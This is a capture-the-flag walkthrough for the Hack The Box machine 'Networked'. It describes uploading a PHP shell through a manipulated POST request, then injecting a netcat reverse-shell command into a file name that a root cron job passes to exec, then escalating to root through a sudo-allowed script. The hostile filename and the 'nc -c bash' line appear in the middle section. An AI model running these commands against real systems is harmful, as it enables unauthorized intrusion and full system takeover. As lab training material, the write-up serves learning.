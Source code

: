 # Networked
## The Art of Exploitation

> In this machine you will have to manipulate and study the inner code of how the web server works in order to gain access to the system

First, download and study the 10.10.10.146/backup folder, and then you can hop on to 10.10.10.146/upload.php, and upload yourself a php shell by manipulating the POST request with burp, for example.

> This will grant you shell access to the machine, now upgrade that shell access into a meterpreter one, and lets get to business.

> You can run use post/multi/recon/local_exploit_suggester to find possible privilege escalations for the machine. A few will pop up.

```
[*] 10.10.10.146 - Collecting local exploits for x86/linux...
[*] 10.10.10.146 - 31 exploit checks are being tried...
[+] 10.10.10.146 - exploit/linux/local/netfilter_priv_esc_ipv4: The target appears to be vulnerable.
[+] 10.10.10.146 - exploit/linux/local/network_manager_vpnc_username_priv_esc: The target service is running, but could not be validated.
[+] 10.10.10.146 - exploit/linux/local/pkexec: The target service is running, but could not be validated.
```

> Turns out we cannot run any of these yet, we need to find another way to get in.

> I will now show you how you get in. First we have to exploit the cronjob running every 3 minutes, it checks for any possible attacks in the uploads folder. And when it deletes those possible malware's from the uploads folder the php script uses a dangerous exec command. We can exploit this by changing the filename to execute us a netcat shell and at the same time look malicious so it gets picked up by the script

```
cd /var/www/html/uploads
touch -- ';nc -c bash 10.10.14.29 1234;.php'

---- On your local machine -----
nc -nvlp 1234
```

* In a moment you will have yourself a more privileged shell!*

```
sudo -l

Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh


sh /usr/local/sbin/changename.sh
```

> Now you will be asked for four values, this script is run as root and in order to escalate your privilege you can do 'INSERTSOMETHING [space] bash' this allows you to exploit a simple linux bug which basicly allows the user to execute anything after the env variable has been set.
